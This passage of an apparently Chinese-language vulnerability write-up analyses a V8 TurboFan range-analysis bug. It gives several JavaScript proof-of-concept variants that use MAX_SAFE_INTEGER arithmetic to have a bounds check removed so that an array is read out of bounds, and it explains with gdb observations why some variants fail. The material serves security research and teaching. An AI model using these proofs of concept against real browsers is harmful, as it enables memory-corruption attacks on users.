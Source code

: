      return arr[t];
 `}`

 console.log(f(1));
 %OptimizeFunctionOnNextCall(f);
 console.log(f(1));
</code></pre>
</li>
<li>在执行`%OptimizeFunctionOnNextCall`前，使函数调用传入的参数**不单一**:
<pre><code class="lang-js hljs javascript"> function f(x)
 `{`
     const arr = [1.1, 2.2, 3.3, 4.4, 5.5];
     let t = (x == 1 ? Number.MAX_SAFE_INTEGER + 1 
           : Number.MAX_SAFE_INTEGER - 2);
     t = t + 1 + 1;
     t -= (Number.MAX_SAFE_INTEGER - 2);
   return arr[t];
 `}`

 console.log(f(1));
 console.log(f(0));  // 添加了此行
 %OptimizeFunctionOnNextCall(f);
 console.log(f(1));
</code></pre>
</li>
</ol>
</li>
<li>POC3：**不使用`let/var/const`修饰词**
<pre><code class="lang-js hljs javascript">function f(x)
`{`
    // 错误：arr前没有let、var或者const
    arr = [1.1, 2.2, 3.3, 4.4, 5.5];
    // 错误：t 前没有let
    t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740989;
    return arr[t];
`}`

console.log(f(1));
%OptimizeFunctionOnNextCall(f);
console.log(f(1));
</code></pre>
**问题点**：经过gdb动态调试可知，若数组前没有修饰词，则`CheckBounds`的上一个结点`LoadField`结点将不会被`LoadEliminationPhase`优化，这样使得数组`length`结点的范围最大值为134217726，最后导致无法成功优化`CheckBounds`结点：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0160850a565566e4b3.png)
同时，若变量`t`前没有修饰词，则越界的`add`操作将被`check`出，进而设置值为`inf/NaN`，之后的减法就无法计算出我们所期望的Range值：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0119a2691179f2ba47.png)
**解决方法**：添加修饰词。
<blockquote>为什么修饰词会影响到结点的建立等等？这其中的内容同样也需要进一步的探索。</blockquote>
</li>
<li>POC4：使用**整数数组**
<pre><code class="lang-js hljs javascript">  function f(x)
  `{`
      const arr = [1, 2, 3, 4, 5];
      let t = (x == 1 ? 9007199254740992 : 9007199254740989);
      t = t + 1 + 1;
      t -= 9007199254740989;
      return arr[t];
  `}`
